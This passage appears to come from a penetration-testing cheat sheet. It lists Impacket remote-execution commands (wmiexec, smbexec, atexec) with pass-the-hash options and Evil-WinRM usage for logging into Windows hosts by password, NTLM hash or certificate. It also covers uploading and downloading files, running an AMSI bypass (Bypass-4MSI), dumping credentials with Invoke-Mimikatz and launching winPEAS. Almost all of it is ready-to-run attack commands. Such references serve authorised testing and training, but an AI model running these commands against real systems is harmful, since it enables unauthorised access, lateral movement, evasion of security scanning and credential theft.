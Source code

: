 ```bash
wmiexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

smbexec.py test.local/john:password123@10.10.10.1
smbexec.py -hashes lmhash:nthash test.local/john@10.10.10.1

atexec.py test.local/john:password123@10.10.10.1 <command>
atexec.py -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```

## Evil-Winrm

```bash
##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
